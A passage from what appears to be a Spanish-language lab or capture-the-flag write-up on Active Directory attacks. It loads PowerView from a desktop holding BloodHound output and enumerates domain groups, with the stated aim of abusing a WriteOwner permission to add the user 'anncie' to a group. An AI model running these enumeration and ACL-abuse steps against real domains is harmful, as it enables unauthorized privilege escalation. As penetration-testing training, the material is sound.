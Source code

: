 ```powershell
cd C:\Users\empleado1\Desktop\
ls
```

Info:

```
Directorio: C:\Users\empleado1\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        12/01/2025     12:16          18175 20250112121622_BloodHound.zip
-a----        07/01/2025     21:33         532856 new_powerview.ps1
-a----        07/01/2025     21:20         770279 PowerView.ps1
-a----        11/01/2025     11:41        1308764 sh.ps1
-a----        12/01/2025     12:16          24786 Yjc5NGZkZjMtMWQ5Ny00ZTUzLTg5ZjktODAzMDI2ZDgxZDI3.bin
```

Vemos que ahora si nos deja, por lo que vamos a cargar el script de `PowerView` para utilizarlo.

```powershell
. .\new_powerview.ps1
```

Lo que vamos hacer es que mediante una vulnerabilidad con el `WriteOwner` hagamos que el usuario `anncie` sea del grupo `Project Managment`.

Si nosotros nos vamos a la informacion de lo que puede hacer este permiso:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Y si nos vamos a la pestaña `Windows Abuse` podremos ver como abusar de estos permisos para poder conseguir nuestro objetivo dandonos varias opciones de comandos.

Antes de ejecutar el comando para abusar de estos permisos, vamos a enumerar los grupos del dominio con el `PowerShell` del `empleado1` de la siguiente forma:

```powershell
cd .\Desktop
. .\new_powerview.ps1
Get-DomainGroup | select name
```
